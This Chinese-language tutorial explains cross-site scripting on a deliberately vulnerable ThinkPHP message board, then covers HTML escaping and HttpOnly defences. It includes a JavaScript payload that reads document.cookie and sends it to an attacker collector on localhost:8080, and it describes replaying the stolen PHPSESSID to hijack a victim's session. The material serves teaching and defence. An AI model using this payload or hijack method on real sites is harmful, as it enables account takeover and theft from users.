 # XSS攻击

XSS（Cross Site Scripting）跨站脚本攻击，是存在于很多老旧应用系统中，原理简单但危害很大的攻击形式。我们这里对XSS攻击进行介绍和演示。

注：这里其实仅仅是演示原理，在较新的系统中，由于各种框架都有考虑安全性，而且现在的开发人员安全意识比老程序员高得多，真正发现一个XSS漏洞是很难的（通常是间接性的），以下例子使用ThinkPHP5.x编写，框架本身是很安全的，但我们故意做了若干不安全的设置，否则几乎无法实现XSS。

## 原理演示

### 环境搭建

假设我们现在有如下图这样一个应用系统，运行于`localhost:80`，它包含一个功能「留言板」，用户登录后可以访问所有的留言，以及发表留言，该功能的输入框具有XSS漏洞。

![](res/1.png)

![](res/2.png)

当然，该应用系统还有许多其它的涉及隐私，或是涉及金钱的服务，任何人都可以免费注册该网站，但现在攻击者想要窃取其它用户的登录状态，以便转移受害者的资产。

### 注入脚本

我们知道Ajax有个鸡肋的特性就是请求不能跨域，但这个特性除了阻碍我们开发以外没什么其他作用，它根本拦不住我们用其它歪门邪道的方式发起跨域请求。

以下代码的作用是获取浏览器中的Cookie，并创建一个`<img>`标签，向我们运行在`localhost:8080`的攻击系统发送数据。`upload.php`负责接收数据并存入数据库。

```javascript
var token = document.cookie;
var img = document.createElement('img');
img.src = 'http://localhost:8080/upload.php?token=' + token;
document.appendChild(img);
```

我们使用`<script>`标签包裹注入的脚本，由于被攻击的应用系统存在XSS漏洞，这段代码会被其他用户的浏览器执行，把自己的Cookie发送出去。

![](res/3.png)

### 其他用户访问

当其他用户访问这个页面时，并不会看到任何`<img>`，但是他们的登录状态已经在不经意间泄漏了。

![](res/4.png)

### 攻击者设置Cookie并登录

我们现在已经拿到了Cookie，`upload.php`为我们保存在了数据库中，如图所示。

![](res/5.png)

我们要做的就是把`PHPSESSID`设置到浏览器中。

![](res/6.png)

注：Firefox手动添加、编辑Cookie很方便，Chrome好像没有这个功能，只能通过代码创建。

这里我们就跳过了登录，直接利用其它人的`PHPSESSID`进入系统了。

![](res/7.png)

## 防范XSS

实际上，使用现代的框架和技术，就上面这样一个最简单的留言板应用系统，不「特殊修改」一下想写出XSS漏洞都很难，但这不代表业务逻辑变得复杂后，我们写的系统就是安全的，我们可能在实现某个特殊需求时，不经意间就写下了一个隐蔽的漏洞，但原理和上面都是相通的。

### HTML过滤

防范XSS最直接的办法是HTML标签过滤，如果上面我们的浏览版页面过滤了用户输入，让`<script>`这种标签无法起效，注入的脚本也就不会在其他用户的浏览器中执行了。

实际上，ThinkPHP模板引擎默认就会在显示时过滤HTML标签，例如`{$msg}`，假如`msg`中包含文本`<script>`，它只会转义并原样输出。除此之外，我们也可以在用户输入提交数据库前，对非法字符进行过滤。

![](res/8.png)

注：HTML过滤并不是最保险的方式，网上有很多针对某种过滤规则，声称能绕过过滤的方法。

### HttpOnly标记

HTTP协议支持`HttpOnly`标记，假如浏览器实现上没有任何bug，它能保证JavaScript无法以任何方式读取Cookie，只有HTTP请求才能带上Cookie，这个基本杜绝了窃取`sessionId`形式的XSS，因为默认PHP的`PHPSESSID`就是`HttpOnly`的。但不排除有些网站会用非`HttpOnly`记录一些其它有价值的数据。
